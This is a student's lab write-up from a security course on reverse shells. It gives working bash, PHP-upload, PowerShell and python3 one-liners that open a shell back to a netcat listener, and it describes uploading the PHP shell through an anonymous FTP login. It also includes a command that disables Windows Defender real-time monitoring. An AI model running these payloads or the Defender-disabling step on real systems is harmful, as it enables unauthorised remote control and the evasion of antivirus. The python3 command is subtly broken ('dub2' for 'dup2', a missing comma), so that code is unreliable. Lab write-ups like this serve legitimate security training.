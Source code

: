 ### Overview
---------
This lab we were continuing to work with web shells, however we are now switching to reverse shells. We were first tasked with connecting to a machine called sec335-rocky and creating a reverse shell to connect to a netcat listener that was running. From there we were tasked with uploading a reverse shell to the pippen system that was exploited last week. Following this we were tasked with running a reverse shell on windows but had to first turn of windows defender to do this. Finally, we were tasked with creating a reverse shell using python3. I will go furth into detail on the techniques that I used to complete this lab below. 

### Reflection
------
This was my first time taking a dive into the world of reverse shells and it was a lot of fun and left me wanting more. I definetaly want to explore these more and I feel like it would be an incredibly useful tool to have under my belt later on. I was a little bit confused on how to create a reverse shell using a php as I have not explored how to use php much however, a few resouces online helped me understand that I was essentially using a bash script within a php script. Understanding this concept made everything much easier. 

### Bash Reverse Shell 
------
The first reverse shell that we used was a somewhat simple one just getting us warmed up for the rest of the lab. To start we ran a netcat listener on one terminal using the command `nc -nlvp 4449` meaing that we were listening on port 4449. On another terminal we first logged into our rocky system using ssh and then we ran the command `/bin/bash -i >& /dev/tcp/10.0.17.150/4449 0>&1`. The IP address in that command is the DHCP address of our host machine and the 4449 is the port that we specified when opening the netcat listener. From there we were connected and able to control the rocky machine from our host machine. 

### Uploading a Reverse Shell
------
For this part of the lab, we were tasked with uploading a reverse shell to the pippen server that we exploited last week. To do this, I first had to create the php script that would be uploaded. To do this I used the command in the section above and just built a very simple php script around that, this is what that looked like:

      <?php
      $output1 = exec("/bin/bash -i >& /dev/tcp/10.0.99.110/4449 0>&1");
      
As mentioned in the reflection I know very little php and would love to explore this further. Now with that created I had to login to the Pippen system using the FTP server that I am able to exploit with the anonymous user logon. Once logged in, I navigated to the upload directory and uploaded this script. From there I started another netcat listener using the same port as above. Once the netcat listener was running I navigated to the URL of the file that I uploaded on the pippen FTP server and was connected to the machine. 

### Powershell Reverse Shell
-------
For this task we had to run a reverse shell on our windows box that connected back to our linux box. To do this I needed to again start a netcat listener linsteing on port 4449. Then on the windows machine run run the command `powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.17.150',4449); $stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.length)) -ne 0){;$data= (New-Object -TypeName System.Text.ASCIIENcoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String);$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"` on the command prompt instead of powershell. However this will not work because Windows Defender blocks this. Reference the section below to turn it off and after disabling it the reverse shell will work. 

###### Turning off Windows Defender over Powershell
To disable Windows Defender simply run the command `Set-MpPreference -DisableRealTimeMonitoring $true` over Powershell. 

### Python3 Reverse Shell
-------
For this final task we were asked to create a reverse shell using python3 to be able to connect back to our linux machine from the rocky machine again. To do this I first had to again create a netcat listener on my linux machine and I was again listening on port 4449. From the we again had to ssh into the rocky machine and run the reverse shell. Below is the command that I used to run the reverse shell:

      python3 -c 'import socket; from subprocess import run; from os import dup2;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.17.150"4449));dub2(s.fileno(),0); dub2(s.fileno(),1); dub2(s.fileno(),2);run(["/bin/bash","-i"]);'
      
After running this I was again connected to the rocky machine through the netcat listener. 
      
